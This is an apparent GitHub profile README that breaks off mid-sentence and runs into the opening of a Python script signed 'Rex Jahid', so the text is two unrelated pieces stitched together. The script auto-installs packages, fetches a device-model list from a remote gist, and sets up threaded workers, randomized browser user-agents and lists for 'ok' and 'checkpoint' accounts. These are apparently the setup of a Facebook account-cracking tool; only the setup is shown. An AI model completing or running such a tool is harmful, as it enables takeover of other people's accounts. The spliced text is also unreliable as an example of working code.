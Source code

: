 - 👋 Hi, I’m @rexjahid57
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to #!/usr/bin/python
#Rex Jahid 

import os,zlib

from os import system as osRUB
from os import system as cmd
os.system('clear')
print('loading Modules ...\n')



try:
    import requests 
except ImportError:
    print('\n  installing Requests ...\n')
    os.system('pip install requests')


try:
    import concurrent.futures
except ImportError:
    print('\n  installing futures ...\n')
    os.system('pip install futures')

try:
    import mechanize
except ModuleNotFoundError:
    os.system('pip install mechanize > /dev/null')

from urllib.request import Request, urlopen
import os, requests, re,platform, sys, random, subprocess, threading, itertools,base64,uuid,zlib,re,json,uuid,subprocess,shutil,webbrowser,time,json,sys,random,datetime,time,re,subprocess,platform,string,json,time,re,random,sys,string,uuid
from concurrent.futures import ThreadPoolExecutor as JahidRex
from string import * 
from random import randint
from time import sleep as slp
from os import system as cmd
from zlib import decompress 
import os, platform

from concurrent.futures import ThreadPoolExecutor
fast_work = ThreadPoolExecutor(max_workers=15).submit

    
model2 = requests.get('https://gist.githubusercontent.com/Nox-Naved/0588acb2b77932048a251d50a973029b/raw/f6de01ac684131b5353854ee114880fb00227cee/Model60').text.splitlines()
totaldmp = 0
count = 0
loop = 0
oks = []
cps = []
id = []
ps = []
sid = []
total=[]
methods = []
srange = 0
saved = []
totaldmp = 0
filter = []
def randBuildLSB():
    vchrome = str(random.randint(100,925))+".0.0."+str(random.randint(1,8))+"."+str(random.randint(40,150))
    VAPP = random.randint(410000000,499999999)